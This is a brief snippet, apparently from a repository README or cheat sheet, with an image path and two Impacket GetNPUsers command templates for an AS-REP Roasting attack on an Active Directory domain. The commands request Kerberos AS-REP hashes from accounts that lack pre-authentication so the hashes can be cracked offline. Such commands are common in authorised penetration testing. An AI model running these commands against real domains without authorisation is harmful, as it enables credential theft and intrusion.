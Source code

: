 ## Use this impacket module to perform an ASREP-Roasting attack

#### 1) Impacket-GetNPUsers DOMAIN.COM/USERNAME -no-pass (ASREPRoastable account)

#### 2) Impacket-GetNPUsers DOMAIN.COM/USERNAME:PASSWORD (Request for ASREPRoastable Users within the domain)
